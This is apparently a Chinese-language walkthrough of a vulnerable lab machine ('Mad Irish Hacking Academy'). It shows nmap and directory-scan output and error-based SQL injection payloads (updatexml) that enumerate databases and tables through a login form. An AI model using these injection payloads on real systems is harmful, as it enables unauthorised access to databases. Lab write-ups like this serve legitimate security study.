



# Recon

这台机器开放了标准端口的ssh和4个http服务位于80、901、8080、10000端口

```shell
# Nmap 7.95 scan initiated Mon Nov 24 02:58:07 2025 as: /usr/lib/nmap/nmap --min-rate 20000 -sT -sV -A -p- -n -Pn -oN recon 192.168.2.153
Nmap scan report for 192.168.2.153
Host is up (0.00047s latency).
Not shown: 65508 filtered tcp ports (no-response), 18 filtered tcp ports (host-unreach)
PORT      STATE  SERVICE     VERSION
22/tcp    open   ssh         OpenSSH 5.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 41:8a:0d:5d:59:60:45:c4:c4:15:f3:8a:8d:c0:99:19 (DSA)
|_  2048 66:fb:a3:b4:74:72:66:f4:92:73:8f:bf:61:ec:8b:35 (RSA)
80/tcp    open   http        Apache httpd 2.2.15 ((CentOS))
|_http-title: Mad Irish Hacking Academy
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.2.15 (CentOS)
137/tcp   closed netbios-ns
138/tcp   closed netbios-dgm
139/tcp   open   netbios-ssn Samba smbd 3.5.10-125.el6 (workgroup: MYGROUP)
901/tcp   open   http        Samba SWAT administration server
|_http-title: 401 Authorization Required
| http-auth: 
| HTTP/1.0 401 Authorization Required\x0D
|_  Basic realm=SWAT
5900/tcp  closed vnc
8080/tcp  open   http        Apache httpd 2.2.15 ((CentOS))
|_http-server-header: Apache/2.2.15 (CentOS)
|_http-open-proxy: Proxy might be redirecting requests
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-title: Admin :: Mad Irish Hacking Academy
|_Requested resource was /login.php
10000/tcp open   http        MiniServ 1.610 (Webmin httpd)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Login to Webmin
MAC Address: 00:0C:29:3D:15:84 (VMware)
Aggressive OS guesses: Linux 2.6.32 - 3.13 (98%), Linux 2.6.32 - 2.6.39 (96%), Linux 2.6.32 - 3.10 (94%), OpenWrt 22.03 (Linux 5.10) (93%), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3) (93%), Linux 2.6.39 (93%), Linux 3.2 - 3.8 (92%), Linux 2.6.22 - 2.6.36 (91%), Linux 3.10 - 4.11 (91%), Tandberg Video Conference System (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: -14d14h48m49s, deviation: 3h32m11s, median: -14d17h18m52s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.5.10-125.el6)
|   Computer name: localhost
|   NetBIOS computer name: 
|   Domain name: 
|   FQDN: localhost
|_  System time: 2025-11-09T09:39:48-05:00

TRACEROUTE
HOP RTT     ADDRESS
1   0.47 ms 192.168.2.153

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Nov 24 02:59:48 2025 -- 1 IP address (1 host up) scanned in 101.51 seconds
```

80端口看起来是一个博客，901端口访问后弹出basic认证，8080端口是一个登录界面，10000端口是webmin



# SQL Injection

8080端口表单username单引号报错，存在sql注入



当前数据库：website

> admin ' and updatexml(1,concat(0x7e,(select database())),1) -- 
>
> Invalid query: XPATH syntax error: '~website' Whole query: select * from users where username='admin' and updatexml(1,concat(0x7e,(select database())),1) -- ' AND password=md5('1') and is_admin=1

website表名：contact,document,hits,log,news

> username=admin{{urlesc(' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) -- )}}&password=1
>
> Invalid query: XPATH syntax error: '~contact,documents,hits,log,news' Whole query: select * from users where username='admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())),1) -- ' AND password=md5('1') and is_admin=1

这个数据库感觉没什么有意思的数据，看看其他数据库

查询其它数据库 发现一个roundcube

>username=admin{{urlesc(' and updatexml(1,concat(0x7e,(select distinct table_schema from information_schema.tables limit 2,1)),1) -- )}}&password=1
>
>Invalid query: XPATH syntax error: '~roundcube' Whole query: select * from users where username='admin' and updatexml(1,concat(0x7e,(select distinct table_schema from information_schema.tables limit 2,1)),1) -- ' AND password=md5('1') and is_admin=1

从roundcube表名来看感觉搭建不完整 可能都没有完成安装

>username=admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='roundcube')),1) -- &password=1
>
>Invalid query: XPATH syntax error: '~cache,cache_index,cache_message' Whole query: select * from users where username='admin' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='roundcube')),1) -- ' AND password=md5('1') and is_admin=1

此前80端口的目录扫描有webmail

```shell
301      GET        9l       28w      312c http://192.168.2.153/img => http://192.168.2.153/img/
301      GET        9l       28w      315c http://192.168.2.153/assets => http://192.168.2.153/assets/
301      GET        9l       28w      312c http://192.168.2.153/css => http://192.168.2.153/css/
301      GET        9l       28w      311c http://192.168.2.153/js => http://192.168.2.153/js/
301      GET        9l       28w      316c http://192.168.2.153/webmail => http://192.168.2.153/webmail/
301      GET        9l       28w      312c http://192.168.2.153/inc => http://192.168.2.153/inc/
[>-------------------] - 2m    164539/30572712 6h      found:6       errors:147    
[>-------------------] - 2m    188479/30572712 9h      found:6       errors:185    
301      GET        9l       28w      331c http://192.168.2.153/backups => http://192.168.2.153/backups/?action=backups
301      GET        9l       28w      318c http://192.168.2.153/webalizer => http://192.168.2.153/webalizer/

```


